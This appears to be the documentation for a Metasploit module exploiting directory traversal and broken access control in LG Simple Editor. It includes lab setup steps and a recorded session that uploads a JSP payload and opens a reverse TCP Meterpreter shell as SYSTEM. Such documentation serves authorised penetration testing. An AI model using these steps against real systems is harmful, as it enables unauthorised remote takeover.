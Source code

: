 ## Vulnerable Application

LG Simple Editor is recommended for small businesses and sports bars which require simple content
display or play-on-air via their signage. It enables easy new content creation by simplifying processes,
and immediate playback on signage.

This Metasploit module exploits broken access control and directory traversal
vulnerabilities in LG Simple Editor software for gaining code execution.
The vulnerabilities exists in versions of LG Simple Editor prior to v3.21.
By exploiting this flaw, an attacker can upload and execute a malicious JSP
payload with the SYSTEM user permissions.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the installation file of the vulnerable software
[here](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip)
2. Follow the installation steps.

After these steps, the LG Simple Editor service should be accessible on port 8080.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/lg_simple_editor_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/lg_simple_editor_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/lg_simple_editor_rce) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/http/lg_simple_editor_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/http/lg_simple_editor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Uploading JSP payload...
[+] Payload uploaded successfully
[+] /nvFIE_original.bmp -> /nvFIE.jsp copy successfull.
[*] Triggering payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[+] Deleted ./webapps/simpleeditor/nvFIE.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:50097) at 2023-09-01 03:44:31 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : DESKTOP-LB6UGKE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 

```
